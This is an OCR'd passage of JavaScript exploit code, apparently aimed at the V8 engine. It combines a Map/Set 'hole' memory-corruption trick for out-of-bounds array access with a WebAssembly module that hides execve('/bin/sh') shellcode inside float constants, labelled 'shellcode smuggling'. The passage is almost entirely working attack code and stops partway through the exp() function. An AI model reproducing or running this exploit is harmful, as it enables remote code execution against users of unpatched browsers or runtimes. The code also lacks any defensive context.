 ```js
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
	console.assert(x);
}

function gc(){
    for(let i=0;i<0x10;i++) new ArrayBuffer(0x100000);
}

////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////


// for future - shellcode smuggling
var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;

// to corrupt the pointer here.
var wasm_code_helper = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod_helper = new WebAssembly.Module(wasm_code_helper);
var wasm_instance_helper = new WebAssembly.Instance(wasm_mod_helper);
var f2 = wasm_instance_helper.exports.main;

// Actual Exploit Starting
function exp(){    
    let hole = Set.prototype.hole();
    let set = new Set();
    var map = new Map();

    map.set(1, 0x69);
    map.set(hole, 0x69);
    map.delete(hole);
    map.delete(hole);
    map.delete(1);

    const x = itof(0x1000000000050001n);
    let obj_list;

    function bob(){
        let a = [0.1, 0.2, 0.3, 0.4];
        let b = new Array(1.1, 2.2);
        let ret = a[-map.size * 0x8];

        a[-map.size * 0x8] = x;
        if (ret === undefined)
            return false
        else {
```